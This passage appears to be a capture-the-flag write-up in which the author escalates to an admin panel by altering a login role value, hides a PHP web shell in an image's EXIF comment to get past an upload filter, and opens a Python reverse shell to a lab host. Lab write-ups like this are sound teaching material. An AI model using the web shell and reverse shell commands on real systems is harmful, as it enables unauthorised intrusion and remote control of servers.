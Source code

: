 But now we can access admin panel by changing the login type to 1 which is the admin role

<img src="https://i.imgur.com/Cn3Kaar.png"/>

Visting the user profile we can upload an image file as user avatar

<img src="https://i.imgur.com/yO1pK68.png"/>

Uploading a regular jpeg file it will load the image

<img src="https://i.imgur.com/06DpY2z.png"/>

On uploading php file having system command it won't allow uploading php files and will keep the previous uploaded image

<img src="https://i.imgur.com/mlWdUCv.png"/>

<img src="https://i.imgur.com/cP2CCFm.png"/>


## Foothold

I tried changing the extension name to `.php.jpeg` and `.jpeg.php` but neither of them worked, so I used `exiftool` to add the php code in the `comment` of the image and changed the image extension to php 

```bash
exiftool -Comment='<?php system($_GET['cmd']); ?>' ./image.jpeg

```

<img src="https://i.imgur.com/peqggDa.png"/>

On uploading this php file we'll see that it got uploaded, we can execute this php by checking the source code for the image file name and directory from where it's being loaded

<img src="https://i.imgur.com/EIoHYnP.png"/>

<img src="https://i.imgur.com/gJwLyqL.png"/>

Using the python3 one liner reverse shell

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

<img src="https://i.imgur.com/hUrIgji.png"/>

We can now stabilize the shell with python3

<img src="https://i.imgur.com/wAN1X2o.png"/>

From classes folder we can find the mysql credentials which maybe useful later
